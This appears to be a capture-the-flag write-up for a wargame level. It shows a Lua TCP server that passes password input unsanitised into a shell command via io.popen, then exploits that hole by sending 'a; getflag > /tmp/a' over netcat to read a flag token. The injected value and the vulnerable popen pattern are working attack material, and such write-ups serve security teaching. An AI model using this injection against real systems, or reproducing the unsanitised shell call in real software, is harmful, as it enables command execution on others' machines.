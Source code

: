 # level11

There is a lua script that creates a server on `127.0.0.1:5151`

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

The script itself does nothing, check if the sha1sum-ed input matches, \
But with a quick search [decrypt sha1sum](https://hashes.com/en/decrypt/hash), it just means `NotSoEasy`. \
The exploit is in `echo ...`

```bash
nc 127.0.0.1 5151
# Password: a; getflag > /tmp/a
# Erf nope..

cat /tmp/a
# Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

